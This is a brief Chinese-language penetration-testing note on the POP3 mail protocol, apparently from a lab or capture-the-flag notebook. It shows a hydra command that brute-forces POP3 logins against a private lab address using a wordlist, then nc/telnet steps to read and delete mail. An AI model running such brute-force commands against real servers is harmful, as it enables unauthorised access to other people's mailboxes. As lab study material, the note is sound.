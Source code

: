用于发送邮件 ：

使用 USER , PASS 登录

```
USER xxx
PASS xxx
```

CRACK ：

```bash
hydra -s 110 -L user.list -P /usr/share/wordlists/fasttrack.txt 192.168.55.6 pop3 -I
```

Dir : `/usr/share/wordlists/fasttrack.txt`

USE :

```
nc / telnet 192.168.55.6 110
```

```
USER 
PASS
list
retr <ID> (读取邮件)
dele <ID> (删除邮件)
quit
```